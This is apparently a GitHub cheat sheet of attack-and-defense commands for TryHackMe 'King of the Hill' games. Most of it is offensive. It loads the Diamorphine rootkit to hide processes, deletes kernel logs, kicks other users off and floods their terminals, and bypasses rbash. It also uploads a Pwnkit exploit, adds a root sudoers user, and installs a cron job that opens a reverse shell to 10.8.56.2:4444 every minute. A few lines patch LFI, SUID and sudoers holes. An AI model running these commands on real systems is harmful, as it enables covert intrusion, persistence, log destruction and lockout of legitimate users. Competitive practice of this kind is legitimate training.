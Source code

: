 
# King of The Hill
KoTH - Attack & defense Tricks

- Using rustscan
- Connecting SSH without tty and hiding the process using rootkit
    - ssh -T user@target.ip -p 1337
        - w
        - who
        - tty
        - ls /dev/pts;
    - ps aux | grep notty
        - git clone git@github.com:m0nad/Diamorphine.git
        - make
        - insmod diamorphine.ko
        - kill -31 <PID>
        - tail -f /var/log/kern.log
        - rm /var/log/kern.log
- Kicking people out of the machine using pkill
    - pkill -9 -t pts/<ID>
    - kill -9 <PID>
- Kicking all users connected in SSH
    - kill `ps aux | grep pts | awk ‘{print $2}’`;
- Kicking all people connected to a given user on SSH
    - pkill -9 -U <user>
- Using ps and grep to search for pts/sshd
    - ps aux | grep sshd
- Trolling your opponent
    - cat /dev/urandom > /dev/pts/<ID> &
    - ./nyancat > /dev/pts/<ID> &
    - ./xpl -n /dev/pts/<ID> “cat /dev/urandom”
    - ./breker.sh <ID>
- Bypass rbash
    - vim
        - :set shell=/bin/bash
        - :shell
- Patch /etc/sudoers
    - vim /etc/sudoers
        - remove everything except: root ALL=(ALL=ALL) ALL 
- Patch SUID
    - Find / -perm /4000 2>/dev/null
    - chmod -s /usr/bin/pkexec
- Removing SSH keys
    - cd ~/.ssh
    - rm id_rsa 
    - rm id_rsa.pub
- LFI Patch
    - <?php include ($_GET['page']); ?>    ------>  <?php include (str_replace(“../”, “”, $_GET['page'])); ?>
- Patch Command Injection
    - remove <?php …………  system(...)  ……… ?>
- Capturing flags using find and grep
    - cd /home; grep -ri thm{ 2>/dev/null
    - cd /var/www; grep -ri thm{ 2>/dev/null
    - cd /root; grep -ri thm{ 2>/dev/null
    - find / -name user.txt 2>/dev/null
    - find / -name flag.txt 2>/dev/null
    - find / -name flag 2>/dev/null
- Adding user with root privilege
    - adduser USER
    - add USER ALL=(ALL:ALL) ALL to /etc/sudoers
- Removing execution permissions form binaries
    - chmod -x /usr/bin/wget
    - chmod -x /usr/bin/curl
    - chmod -x /usr/bin/chattr
- Uploading file using SSH
    - ssh user@target.ip -p1337 “cat Pwnkit” < Pwnkit
- Protect king using while
    - while true; do chattr -ia /root/king.txt; echo msoodb > /root/king.txt; chattr +ia /root/king.txt; set -o noclobber /root/king.txt ; done &
- Blocking password authentication in ssh
    - PasswordAuthentication no in /etc/ssh/sshd_config
    - service sshd restart
- Using crontab to load a script with a reverse shell every 1 minute
    - echo "/bin/sh -i >& /dev/tcp/10.8.56.2/4444 0>&1" > /tmp/.persistence.sh
    - chmod +x .persistence.sh
    - vim /etc/crontab
        - * * * * * root /tmp/.persistence.sh
